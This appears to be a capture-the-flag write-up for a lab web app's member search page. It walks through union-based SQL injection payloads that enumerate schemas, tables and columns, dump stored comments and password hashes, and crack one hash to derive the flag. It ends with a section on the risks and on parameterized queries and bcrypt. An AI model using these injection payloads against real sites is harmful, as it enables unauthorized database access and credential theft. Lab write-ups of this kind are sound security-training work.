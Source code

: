 # Users Page

__http://192.168.56.101/?page=member&id=1&Submit=Submit__

## Description
This page allow to find the members of the service.

## Form Outputs

https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ - main table information

1) 1 union select table_name, table_schema from iNFORMATION_SCHEMA.TABLES - see all schema names and their tables

2) 1 union select table_name, column_name from iNFORMATION_SCHEMA.columns - see all tables and their columns

3) find column username, password and see what tables in it

Member_Sql_Injection

1 union all select null from Member_Sql_Injection

1 union all select table_schema FROM information_schema.tables WHERE table_name = 'Member_Sql_Injection'

The [page](#http://192.168.56.101/?page=member&id=1%20union%20select%20database(),%20schema_name%20from%20information_schema.schemata&Submit=Submit) return the list of members

```
ID: 1 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 1 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 1 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 1 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_images
ID: 1 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_survey
```

The [page](#http://192.168.56.101/?page=member&id=1%20union%20select%20table_name,%20create_time%20from%20information_schema.tables%20where%20table_schema=database()&Submit=Submit) return the list of the tables

```
ID: 1 union select table_name, create_time from information_schema.tables where table_schema=database() 
First name: users
Surname : 2021-06-29 20:14:31
```

Let's check the column names [here](#http://192.168.56.101/?page=member&id=1%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit)

```
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: user_id
Surname : int(11)
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: first_name
Surname : varchar(255)
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: last_name
Surname : varchar(255)
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: town
Surname : varchar(255)
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: country
Surname : varchar(255)
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: planet
Surname : varchar(255)
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: Commentaire
Surname : varchar(255)
ID: 1 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: countersign
Surname : varchar(255)
```
We've got the following columns ```user_id first_name last_name town country planet Commentaire countersign```

Then we get the personal data </br>
[select Commentaire, countersign from users](#http://192.168.56.101/?page=member&id=1%20union%20select%20Commentaire,%20countersign%20from%20users&Submit=Submit)
```
ID: 1 union select Commentaire, countersign from users 
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 1 union select Commentaire, countersign from users 
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 1 union select Commentaire, countersign from users 
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Flag
The flag we've got is [FortyTwo](#https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28)
After converting FortyTwo to [sha256](#https://crypt-online.ru/crypts/sha256/) as in the instruction we get a flag.
```echo -n "FortyTwo" | shasum -a 256```

## Safety
The IT safety of the web in this case is compromised due to several security vulnerabilities, mainly SQL injection. 
The risk that the web is bringing includes unauthorized access to sensitive information such as member data and user credentials. The SQL injections allow an attacker to execute arbitrary queries on the database, which enables them to retrieve the list of members, tables, column names, and even personal data like comments and passwords.
These vulnerabilities can lead to potential data breaches, privacy violations, and unauthorized access to user accounts. It is crucial for the website administrators to address these security issues by implementing proper input validation and parameterized queries to prevent SQL injection attacks.
Additionally, storing passwords in plaintext or using weak encryption algorithms like SHA256/MD5 can also put user accounts at risk. It is essential to use strong and properly implemented hashing algorithms like bcrypt to securely store passwords.
Overall, the web's security is at high risk due to the presence of SQL injection vulnerabilities and weak password storage practices, which can lead to unauthorized access and potential harm to users' privacy and security.